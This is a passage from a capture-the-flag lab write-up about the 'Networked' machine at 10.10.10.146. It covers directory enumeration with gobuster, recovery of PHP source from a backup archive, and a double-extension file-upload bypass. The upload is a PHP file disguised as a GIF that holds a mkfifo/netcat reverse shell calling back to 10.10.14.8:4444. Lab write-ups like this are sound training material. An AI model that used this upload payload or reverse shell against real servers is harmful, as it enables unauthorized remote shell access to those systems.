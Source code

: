 ```
# gobuster dir -u http://10.10.10.146/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c 404
/uploads              (Status: 301) [Size: 236] [--> http://10.10.10.146/uploads/]
/backup               (Status: 301) [Size: 235] [--> http://10.10.10.146/backup/]
```

![](Networked_web1.png)

Downloading `Backup.tar` file got up something when extracting 
```
# tar -xvf backup.tar 
index.php
lib.php
photos.php
upload.php
```

###### `Upload callmeback.php.gif and got Shell`
So we got the source code. we now know that there's a `photos.php` present.
![](Networked_web2.png)

Uploading my `callmeback.php` - Double Extension 
```
# cat callmeback.php.gif         
GIF8;
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f"); ?>
```
